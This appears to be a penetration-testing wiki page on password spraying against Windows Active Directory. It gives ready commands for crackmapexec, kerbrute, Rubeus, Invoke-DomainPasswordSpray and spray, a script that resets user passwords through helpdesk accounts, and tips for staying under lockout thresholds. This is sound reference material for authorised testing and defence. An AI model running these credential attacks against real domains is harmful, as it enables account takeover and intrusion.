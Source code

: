 # Password Spraying

## **Password Spraying**

Once you have found several **valid usernames** you can try the most **common passwords** \(keep in mind the password policy of the environment\) with each of the discovered users.  
By **default** the **minimum** **password** **length** is **7**.

Lists of common usernames could also be useful: [https://github.com/insidetrust/statistically-likely-usernames](https://github.com/insidetrust/statistically-likely-usernames)

Notice that you **could lockout some accounts if you try several wrong passwords** \(by default more than 10\).

### Get password policy

If you have some user credentials or a shell as a domain user you can get the password policy with:

* `crackmapexec <IP> -u 'user' -p 'password' --pass-pol`
* `enum4linx -u 'username' -p 'password' -P <IP>`
* `(Get-DomainPolicy)."System Access" #From powerview`

### Exploitation

Using [RPCUserInfoSprayer.sh](https://github.com/m3ll-0/ExploitScripts/blob/master/SMB/RPCUserInfoSprayer.sh):

```bash
RPCUserInfoSprayer.sh <target> <userfile> <new_password> <auth_username> <auth_password>
```

```bash
RPCUserInfoSprayer.sh $target /tmp/testusers HelloWorld1 support '#00^BlackKnight'
```

Helpdesk / Service accounts may have the option to reset user passwords. This tries to change the user passwords using RPCClient, this won't likely lock out the accounts \(not confirmed\). For more information read: [https://malicious.link/post/2017/reset-ad-user-password-with-linux/](https://malicious.link/post/2017/reset-ad-user-password-with-linux/)

Using **crackmapexec:**

```bash
crackmapexec smb <IP> -u users.txt -p passwords.txt
```

Using [kerbrute](https://github.com/TarlogicSecurity/kerbrute)\(python\) - NOT RECOMMENDED SOMETIMES DOESN'T WORK

```bash
python kerbrute.py -domain jurassic.park -users users.txt -passwords passwords.txt -outputfile jurassic_passwords.txt
python kerbrute.py -domain jurassic.park -users users.txt -password Password123 -outputfile jurassic_passwords.txt
```

**Kerbrute** also tells if a username is valid.

Using [kerbrute](https://github.com/ropnop/kerbrute)\(Go\)

```bash
./kerbrute_linux_amd64 passwordspray -d lab.ropnop.com domain_users.txt Password123
./kerbrute_linux_amd64 bruteuser -d lab.ropnop.com passwords.lst thoffman
```

With [Rubeus](https://github.com/Zer1t0/Rubeus) version with brute module:

```bash
# with a list of users
.\Rubeus.exe brute /users:<users_file> /passwords:<passwords_file> /domain:<domain_name> /outfile:<output_file>

# check passwords for all users in current domain
.\Rubeus.exe brute /passwords:<passwords_file> /outfile:<output_file>
```

With the `scanner/smb/smb_login` module of Metasploit:

![](../../.gitbook/assets/image%20%28234%29.png)

With [Invoke-DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1)

```bash
Invoke-DomainPasswordSpray -UserList .\users.txt -Password 123456 -Verbose
```

or **spray** \(read next section\).

### Lockout check

The best way is not to try with more than 5/7 passwords per account.

So you have to be very careful with password spraying because you could lockout accounts. To brute force taking this into mind, you can use _**spray:**_

```bash
apt-get install spray
spray -smb <targetIP> <usernameList> <passwordList> <AttemptsPerLockoutPeriod> <LockoutPe
```

\*\*\*\*[**More information and rudimentary password spray techniques in ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/active-directory-password-spraying)\*\*\*\*

